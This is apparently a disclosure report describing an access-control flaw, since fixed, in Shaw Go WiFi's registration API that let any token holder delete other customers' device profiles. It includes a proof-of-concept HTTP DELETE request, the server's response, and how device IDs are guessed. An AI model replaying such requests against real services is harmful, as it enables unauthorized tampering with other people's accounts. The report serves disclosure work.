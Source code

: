 ```yaml
---
layout: reports
permalink: /reports/7/
tagline: "On 10 August 2018 I discovered an Arbitrary File Deletion vulnerability on shaw.com"
image:
  feature: blog/default-feature.jpg
  hero: blog/default-header.jpg
report-id: GW0007
---
```


## Summary

By sending a `DELETE` request to a specific API location it is possible to arbitrarily delete Shaw Go Wifi device profiles from any account.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with any Shaw customer or by remotely logging into a @shaw.ca email. The `access_token` can be used to delete device profiles even if they are associated with another account.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

After generating an `access_token` we can send a `delete` request, replacing `c15c0d06f00d` with the device ID. The device ID is usually either the device MAC Address or `120100██████` with `██████` being a sequentially generated hexadecimal value.

Request:
```http
DELETE /api/customer/devices/c15c0d06f00d HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 50
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._


## Recommended Actions

 - Implement proper access controls.

## Remediation Status

At the time of publishing this report using `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` now result in the response `412 Precondition Failed` and `{"code":242,"message":"Invalid Device - Missing from Account: 03161234567"}`

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since.

## Response From Vendor


### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
